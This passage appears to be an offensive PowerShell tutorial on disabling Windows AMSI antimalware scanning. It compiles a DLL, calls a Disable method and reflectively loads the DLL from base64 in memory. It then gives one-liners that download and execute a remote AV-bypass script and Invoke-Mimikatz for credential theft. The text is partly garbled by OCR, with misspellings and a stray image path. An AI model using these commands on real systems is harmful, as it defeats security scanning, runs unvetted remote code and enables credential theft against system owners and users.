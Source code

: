 To load it into Powershell we can use its native (.NET) API:
```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll")) 
[BP.AMS]::Disable()
```

encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it. To encode the dll to Then base64 I used this command.
```
$OriginalCommand = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"));$OriginalCommand
```

Loadoad it into memory

```
[Reflection.Assembly]::Load([Convert]::FromBase64String($OriginalCommand)) | Out-Null
```
### Byusing Third Party AMSI
```
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/aloksaurabh/OffenPowerSh/master/Bypass/Invoke-AlokS-AvBypass.ps1')
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
powershell get-item function:
```
